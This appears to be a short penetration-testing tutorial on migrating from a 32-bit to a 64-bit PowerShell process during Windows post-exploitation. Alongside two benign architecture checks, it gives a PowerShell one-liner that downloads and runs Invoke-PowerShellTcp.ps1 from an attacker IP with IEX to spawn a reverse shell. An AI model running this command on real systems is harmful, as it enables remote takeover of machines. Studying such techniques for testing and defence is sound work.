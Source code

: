 # Windows Migrating Process

## PowerShell Migrating Process

This is a technique to migrate from a 32-bit process to a 64-bit one. It should be said that this procedure is important for the correct enumeration of the system because if it is included in a process that does not run under the architecture of the machine, then post-exploitation tools, will give a bunch of false positives. Knowing with what architecture we are dealing with both the operating system and the process level, we can do it via Powershell, obtaining **True** or **False** depending on whether it is true or not through the following queries.

Operating System Architecture

```text
[Environment]::Is64BitOperatingSystem
```

Process Architecture

```text
[Environment]::Is64BitProcess
```

If we see that it is a 64-bit operating system, and the statement `[Environment]::Is64BitProcess` returns a **False**, the only thing we will have to do is, for example, winning a session by Powershell and invoke it from the following path:

```text
C:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.10.15:443/Invoke-PowerShellTcp.ps1')
```

In the new reverse shell. If we check again which process we are in, we can see that this time the query`[Environment]::Is64BitProcess` will return a **True**, and we can now continue with the enumeration at the system level.

